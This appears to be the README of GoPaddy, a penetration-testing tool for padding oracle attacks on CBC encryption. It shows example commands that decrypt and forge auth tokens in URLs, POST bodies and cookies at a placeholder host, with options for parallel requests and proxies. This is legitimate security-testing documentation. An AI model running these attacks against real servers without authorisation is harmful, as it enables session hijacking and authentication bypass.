 # GoPaddy

A fast, Golang, concurrent tool to perform Padding Oracle attacks against CBC mode encryption.

![demo](demo.gif)


### Installation/Update
```console
go get -u github.com/glebarez/GoPaddy
```

### Examples
- Decrypt tokens in GET parameters
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- Decrypt tokens in GET parameters (lowercase hex)
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" -e lhex "2a7bc39262b122e58b13a95de49677b056c41a577f9d6904b921c0b0763c2cf3"
````

- POST data
```console
GoPaddy -u "http://vulnerable.com/login" -post "token=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- Cookies
```console
GoPaddy -u "http://vulnerable.com/login" -cookie "auth=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- Encrypt token in GET parameter
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" -enc "EncryptMe"
```

- Encrypt token in GET parameter (lowercase hex)
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" -enc -e lhex "EncryptMe"
```

### Note on tool chaining
All the fancy stuff (logo and progress tracking) is written to STDERR. <br>
Thus you may safely redirect STDOUT to a file, or pipe it with another tool. <br>
Only successfully processed values will be written to redirection target. <br>
You can supply (multiple) input values into STDIN as well.

### Usage
```console
GoPaddy [OPTIONS] [INPUT]
```

INPUT:

	In decrypt mode:
	the encoded (as plaintext) value of valid cipher, whose value is to be decrypted
	if not passed, GoPaddy will use STDIN, reading ciphers line by line
	The provided cipher must be encoded as specified in -e and -r options.

	In encrypt mode:
	the plaintext to be encrypted
	if not passed, GoPaddy will use STDIN, reading plaintexts line by line

	

OPTIONS:

-u

	Vulnerable URL (one that produces padding errors).
    Use $ character to define cipher placeholder for GET request.
	Example:
    	if URL is "http://vulnerable.com/?parameter=$"
		then HTTP request will be sent as "http://example.com/?parameter=payload"
		the payload will be filled-in as a cipher, encoded using 
		specified encoder and replacement rules (see options: -e, -r)

-err

	A padding error string as presented by the server.
    HTTP responses will be searched for this string to detect 
	padding oracle. Regex is supported.
    Only response body is matched.

-e

	Encoding, used by the server to encode binary ciphertext in HTTP context.
	This option is used in conjunction with -r option (see below)
	Supported values:
		b64 (standard base64) *default*
		lhex (lowercase hex)

-enc

    Encrypt mode
-r

	Character replacement rules that server applies to encoded ciphertext.
	Use odd-length strings, consisting of character pairs: <OLD><NEW>.
	Example:
		If server uses base64, but replaces '/' with '!', '+' with '-', '=' with '~',
		then use -r "/!+-=~"

-cookie

	Cookie value to be decrypted in HTTP requests.
	Use $ character to define cipher placeholder.

-post

	If you need to perform POST requests (instead of GET), 
	then provide string payload for POST request body in this parameter.
	Use $ character to define cipher placeholder.
        Example: 
                  -post "vuln_param=$"
          

-ct

	Content-Type to be set in HTTP requests.
    This option is only effective when -post option is used.
	If not specified, Content-Type will be inferred automatically
    based on data, provided in -post option.
	
-b

	Block length used in encrypting (always 16 for AES)
	Supported values:
		8u
		16 *default*
		32

-p

	Number of parallel HTTP connections established to target server [1-256]
		30 *default*
		
-proxy

	HTTP proxy. e.g. use -proxy "http://localhost:8080" for Burp or ZAP
